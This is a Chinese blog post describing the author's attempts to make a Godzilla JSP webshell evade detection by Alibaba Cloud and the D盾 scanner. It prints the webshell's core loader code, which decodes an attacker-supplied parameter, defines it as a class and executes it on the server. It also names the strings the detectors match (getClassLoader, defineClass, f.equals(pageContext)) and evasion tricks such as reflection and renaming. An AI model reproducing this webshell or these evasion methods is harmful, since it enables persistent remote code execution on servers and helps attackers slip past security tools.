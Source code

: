   
改了一下变量名，也不行。  
  
经过一天的测试，发现，好像绕不过阿里云了。，太菜了。先这样。  
  
aliyun会匹配f.equals(pageContext);  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYND6hsGqOTJBPuwXRiaf6guoOh8GZn65PktZZ60Kt3lndLQESS76fPgPw/640?wx_fmt=png&from=appmsg "")  
  
  
改成unicode也不行，aliyun是动态的，他会运行。其他的都用反射写好了。  
  
哦，对了，还有一点就是这个defineClass(null, cb, 0, cb.length);方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYN3BDlLhmLoL9XWz4QzkqTjcjKTuFXaFSSdhba9onE6rY8ICicwtBEOFA/640?wx_fmt=png&from=appmsg "")  
  
  
https://xz.aliyun.com/t/11368  
  
在这篇大师傅的文章中，详细说了这个，哥斯拉和冰蝎都是这样的需要defineClass方法来加载恶意类字节码，似乎需要自定义ClassLoader来绕过了。或者改payload了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNPoU1ehL13DWufdw1TonLbfrKicaqhVWYibNPLpqIpD8fDXOYU3s0uSuQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNfufus79aQTyqxexIsEE7wtxHwNCFN1GkkIryuaRP14ZQPgKhdPkGBQ/640?wx_fmt=png&from=appmsg "")  
  
  
下面的评论中，也写了，单文件不好过阿里云了。需要分离了。笔者太菜了，后面在研究。  
  
接下来看下半部分，在看了大量哥斯拉免杀马的教程后发现，d盾我也没过去。下面就记录一下。  
```
<%
    try {
        byte[] data = base64Decode(request.getParameter(pass));
        data = x(data, false);

        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            f.equals(arrOut);
            f.equals(pageContext);

            response.getWriter().write(md5.substring(0, 16));
            f.toString();
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
            response.getWriter().write(md5.substring(16));
        }
    } catch (Exception e) {}
%>
```  
  
这是下半部分，主要的查杀点是session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));  
  
准确的来说是getClassLoader这个字符串。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNC2YB0eANAGfOFsMJNhX4M9IPVFsJYHNxt2qFQCicP4m0nIobyQibwPfw/640?wx_fmt=png&from=appmsg "")  
  